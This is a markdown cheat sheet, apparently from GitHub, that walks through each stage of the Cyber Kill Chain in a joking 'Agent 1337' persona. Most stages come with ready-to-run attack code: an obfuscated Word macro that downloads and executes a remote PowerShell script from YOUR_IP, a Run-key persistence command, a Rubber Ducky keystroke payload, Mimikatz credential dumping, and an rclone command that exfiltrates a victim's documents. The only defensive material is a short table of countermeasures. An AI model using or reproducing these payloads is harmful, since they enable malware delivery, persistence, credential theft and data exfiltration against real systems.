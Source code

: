 # Cyber Kill Chain – Operation: PWN EVERYTHING
*Presented by: Agent 1337, InfoSec's slickest field operative*

_Includes working payload code samples for lab use._


## 1. Reconnaissance – “The Creeper’s Crawl”

| Field | Details |
|-------|---------|
| Mission | Know thy target. |
| Tactics | - Passive: Google dorking, LinkedIn stalking, Shodan scans<br>- Active: Phishing domain lookups, WHOIS scraping |
| Payloads | N/A (no code dropped here — just info slurped) |
| Tip | Try using “theHarvester” and see what emails and domains fall out like candy from a piñata. |

## 2. Weaponization – “Crafting the Digital Dagger”

| Field | Details |
|-------|---------|
| Mission | Combine malware with a delivery vehicle. |
| Tactics | - Malicious PDFs/Excels<br>- Bind reverse shell to installer |
| Payloads | - Meterpreter in a CV-laced PDF<br>- Emotet in invoice-themed Word doc<br>- PowerShell Empire script<br>It’s like putting a snake in a birthday cake. Only less festive. And more... root access. |
| Sample Code | Sub AutoOpen()<br>    Dim p1 As String, p2 As String, p3 As String<br>    p1 = "pow"<br>    p2 = "ers"<br>    p3 = "hell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"<br>    Dim fullCmd As String<br>    fullCmd = p1 & p2 & p3<br>    Shell fullCmd, vbHide<br>End Sub |

## 3. Delivery – “The Trojan Horse Uber Eats Edition”

| Field | Details |
|-------|---------|
| Mission | Get the payload to the victim. |
| Tactics | - Phishing emails<br>- Drive-by downloads<br>- USB drops |
| Payloads | - Malicious login links<br>- MalDoc macro<br>- Rubber Ducky USB scripts |
| Tip | Can you spot the phishing email before HR opens it? |

## 4. Exploitation – “The Big Bang”

| Field | Details |
|-------|---------|
| Mission | Trigger the payload to breach the system. |
| Tactics | - Macros<br>- Zero-day exploits<br>- JavaScript payloads |
| Payloads | - CVE-2021-40444<br>- Log4Shell<br>- Cobalt Strike beacon |
| Tip | User: “Why is my screen flickering?”<br>Attacker: “That’s just... your new dark mode.” |

## 5. Installation – “Staying for Dinner”

| Field | Details |
|-------|---------|
| Mission | Set up shop. |
| Tactics | - Backdoors<br>- Registry run keys<br>- RATs |
| Payloads | - NanoCore<br>- Cobalt Strike<br>- Encoded PowerShell in scheduled task |
| Tip | Always check your startup programs. |
| Sample Code | Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')" |

## 6. Command and Control (C2) – “Hello from the Other Side”

| Field | Details |
|-------|---------|
| Mission | Maintain remote access and issue commands. |
| Tactics | - HTTPS<br>- DNS tunneling<br>- Cloud-based C2 |
| Payloads | - Metasploit beacon<br>- Sliver C2<br>- Discord bot |
| Tip | Try setting up a simulated C2 in a lab. |
| Sample Code | # Netcat listener<br>nc -lvnp 443<br><br># Python HTTP server<br>python3 -m http.server 80 |

## 7. Actions on Objectives – “Data, Gold, and Glory”

| Field | Details |
|-------|---------|
| Mission | Exfiltrate, destroy, encrypt, or spy. |
| Tactics | - Data exfil<br>- Ransomware<br>- Credential harvesting |
| Payloads | - Rclone<br>- LockBit/BlackCat<br>- Mimikatz |
| Tip | If you hear ‘your files have been encrypted,’ the party’s over. |
| Sample Code | # Mimikatz<br>sekurlsa::logonpasswords<br><br># Rclone exfil<br>rclone copy C:\Users\victim\Documents remote:loot --config rclone.conf |

## Bonus Level: DEFENSE MODE – Your Counterplay

| Field | Details |
|-------|---------|
| Defense Tactics | Recon: Monitor open-source mentions<br>Delivery: Email filtering + awareness<br>Exploit/Install: EDR + patching<br>C2: Detect beaconing patterns<br>Objectives: DLP, SIEM alerts, segmentation |

## Bonus Payload – Rubber Ducky Ninja Moves

| Field | Details |
|-------|---------|
| Ducky Script | DELAY 1000<br>GUI r<br>DELAY 500<br>STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"<br>ENTER |
| shell.ps1 | Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')" |





